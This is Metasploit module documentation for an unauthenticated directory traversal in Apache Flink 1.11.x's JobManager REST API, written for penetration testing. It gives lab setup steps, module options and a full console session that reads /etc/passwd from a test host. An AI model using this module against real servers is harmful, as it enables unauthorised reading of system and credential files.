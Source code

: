 ## Vulnerable Application

This module exploits an unauthenticated directory traversal vulnerability
in [Apache Flink](https://flink.apache.org) versions 1.11.0 <= 1.11.2.

The JobManager REST API fails to validate user-supplied log file paths,
allowing retrieval of arbitrary files with the privileges of the web server user.

This module has been tested successfully on:

* Apache Flink version 1.11.2 on Ubuntu 18.04.4.

## Verification Steps

```sh
wget 'https://archive.apache.org/dist/flink/flink-1.11.2/flink-1.11.2-bin-scala_2.11.tgz'
tar zxvf flink-1.11.2-bin-scala_2.11.tgz
cd flink-1.11.2/
./bin/start-cluster.sh
```

Metasploit:

1. `./msfconsole`
1. `use auxiliary/scanner/http/apache_flink_jobmanager_traversal`
1. `set rhosts <rhost>`
1. `set filepath <file path>`
1. `run`

## Options

### FILEPATH

The path to the file to read (Default: `/etc/passwd`)

### DEPTH

Depth for path traversal (Default: `10`)

## Scenarios

### Apache Flink version 1.11.2 on Ubuntu 18.04.4

```
msf > use auxiliary/scanner/http/apache_flink_jobmanager_traversal 
msf auxiliary(scanner/http/apache_flink_jobmanager_traversal) > set rhosts 172.16.191.195
rhosts => 172.16.191.195
msf auxiliary(scanner/http/apache_flink_jobmanager_traversal) > check
[*] 172.16.191.195:8081 - The target appears to be vulnerable. Apache Flink version 1.11.2 appears vulnerable.
msf auxiliary(scanner/http/apache_flink_jobmanager_traversal) > set filepath /etc/passwd
filepath => /etc/passwd
msf auxiliary(scanner/http/apache_flink_jobmanager_traversal) > run

[*] Downloading /etc/passwd ...
[+] Downloaded /etc/passwd (2401 bytes)
[+] File /etc/passwd saved in: /root/.msf4/loot/20210216114934_default_172.16.191.195_apache.flink.job_754087.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/apache_flink_jobmanager_traversal) > cat /root/.msf4/loot/20210216114934_default_172.16.191.195_apache.flink.job_754087.txt
[*] exec: cat /root/.msf4/loot/20210216114934_default_172.16.191.195_apache.flink.job_754087.txt

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin
avahi-autoipd:x:106:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
rtkit:x:109:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
cups-pk-helper:x:110:116:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:111:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
whoopsie:x:112:117::/nonexistent:/bin/false
kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:114:119::/var/lib/saned:/usr/sbin/nologin
pulse:x:115:120:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
avahi:x:116:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
colord:x:117:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:118:7:HPLIP system user,,,:/var/run/hplip:/bin/false
geoclue:x:119:124::/var/lib/geoclue:/usr/sbin/nologin
gnome-initial-setup:x:120:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:121:125:Gnome Display Manager:/var/lib/gdm3:/bin/false
user:x:1000:1000:user,,,:/home/user:/bin/bash
msf auxiliary(scanner/http/apache_flink_jobmanager_traversal) > 
```

